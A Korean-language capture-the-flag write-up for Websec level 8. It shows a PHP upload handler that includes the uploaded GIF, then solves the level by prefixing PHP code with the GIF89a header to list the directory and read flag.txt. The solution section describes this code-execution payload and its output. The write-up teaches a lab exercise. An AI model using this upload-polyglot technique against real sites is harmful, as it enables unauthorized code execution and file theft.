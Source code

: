 ```yaml
---
title : "Websec - Level 8"
categories : [Wargame, Websec]
tags: ["LFI using PHP injected GIF"]
---
```


## Level 8
<hr style="border-top: 1px solid;"><br>

``` php
$uploadedFile = sprintf('%1$s/%2$s', '/uploads', sha1($_FILES['fileToUpload']['name']) . '.gif');

if (file_exists ($uploadedFile)) { unlink ($uploadedFile); }

if ($_FILES['fileToUpload']['size'] <= 50000) {
    if (getimagesize ($_FILES['fileToUpload']['tmp_name']) !== false) {
        if (exif_imagetype($_FILES['fileToUpload']['tmp_name']) === IMAGETYPE_GIF) {
            move_uploaded_file ($_FILES['fileToUpload']['tmp_name'], $uploadedFile);
            echo '<p class="lead">Dump of <a href="/level08' . $uploadedFile . '">'. htmlentities($_FILES['fileToUpload']['name']) . '</a>:</p>';
            echo '<pre>';
            include_once($uploadedFile);
            echo '</pre>';
            unlink($uploadedFile);
        } 
        else { echo '<p class="text-danger">The file is not a GIF</p>'; }
    } 
    else { echo '<p class="text-danger">The file is not an image</p>'; }
} 
else { echo '<p class="text-danger">The file is too big</p>'; }
```

<br><br>
<hr style="border: 2px solid;">
<br><br>


## Solution
<hr style="border-top: 1px solid;"><br>

gif파일인지 검사를 하는 코드가 있어서 파일은 반드시 gif파일만 올릴 수 있음. 


텍스트파일을 gif파일로 변환해서 업로드 한 뒤 burp suite로 보면은 ```GIF89a```로 시작한다는 점을 알 수 있음. 

이를 이용해서 문제를 풀 수 있음.

<br>

**```GIF89a```만 남기고 php 코드를 넣어주면 현재경로에 있는 파일을 볼 수 있음.**

<br>

```php
print_r(scandir('./')); 

Array
(
    [0] => .
    [1] => ..
    [2] => flag.txt
    [3] => index.php
    [4] => php-fpm.sock
    [5] => source.php
    [6] => uploads
)
```

<br>

그 다음 ```file_get_contents```함수를 이용해서 flag.txt 파일을 읽어 플래그를 흭득하면 됨.

<br><br>
<hr style="border: 2px solid;">
<br><br>
